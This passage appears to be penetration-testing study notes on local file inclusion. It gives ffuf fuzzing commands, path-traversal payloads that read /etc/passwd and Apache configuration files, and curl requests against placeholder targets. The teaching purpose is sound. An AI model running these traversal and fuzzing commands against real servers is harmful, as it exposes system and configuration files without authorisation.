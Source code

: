 ``` bash
$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
language                    [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```
2. Fuzz the parameter values with LFI wordlists. (e.g. [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt))
``` bash
$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
```
3. Server Webroot
	- [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
	- [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
	- [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
``` bash
$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```
4. Server Logs/Configurations
	- [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) 
	- [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
	- [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
``` bash
$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
....[SNIP].....
```
> Read some configuration
``` bash
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars
...SNIP...
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```
The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy).

---